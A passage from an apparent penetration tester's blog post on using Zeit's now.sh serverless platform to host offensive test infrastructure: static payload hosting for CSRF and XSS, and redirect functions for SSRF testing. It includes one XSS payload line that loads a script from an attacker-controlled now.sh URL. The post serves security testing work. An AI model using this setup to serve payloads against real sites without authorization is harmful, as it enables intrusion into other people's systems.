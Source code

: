 ## Serverless Providers
There are several main players in the serverless space (AWS, Google, Microsoft, Cloudflare, etc), but the one I've found is the easiest, cheapest (read: free), and most straightfoward is [Zeit's now.sh](https://zeit.co/now). Their free tier is top-notch, and the command line tool `now` lets me kick off full deployments right from my terminal. The other main benefit is that full Docker builds are first class deployment units to Now.sh, meaning there's far less abstraction than AWS Lambda or Google Cloud Functions provide.

Just recently, Zeit unveiled [Now 2.0](https://zeit.co/blog/now-2) which moves away from native Docker deployments. All of my examples require the older Now 1.0. Fortunately, there's no immediate plans to deprecate Now 1.0 anytime soon, so they shouldn't break.

To get started with now, just install the NPM module and set up credentials with an email:

```
$ npm install -g now
$ now
No existing credentials found. Please log in:
> Enter your email:
```
Follow the instructions in the email and you're ready to rock.

# Example Functions
I'll go into each of the examples I'm releasing here. Hopefully you can quickly see the benefit of using serverless over VPSs for a lot of these tasks.

### Static File Hosting
https://github.com/ropnop/serverless_toolkit/tree/master/static_example

I am often hosting payloads for CSRF or XSS, or needing to put some sort of PoC in a publicly reachable place. I maintain a few VPSs with valid SSL certificates for this reason, but with serverless static deployments, they're no longer really necessary. With one command I can serve up any arbitrary file (payload) with a globally trusted TLS certificate (Let'sEncrypt), behind a fast CDN and with full HTTP/2 support.

In any folder containing files you want available online, running `now --public` will deploy and return a public URL serving up your files:

![Static Files](/images/2018/11/static_example.png)

These files can then be pulled down from anywhere that has Internet access, or can be embedded inside XSS payloads like this:
`<script src="https://staticexample-eaguoozryf.now.sh/alert.js"></script>`

### Simple Redirect
https://github.com/ropnop/serverless_toolkit/tree/master/simple_redirect

When testing SSRF, being able to control redirects is really useful. I used to do this with PHP scripts running on a VPS I owned, but now wither serverless I can spin up and deploy arbitrary redirect functions easily.

This function takes two environment variables to be set when deploying:
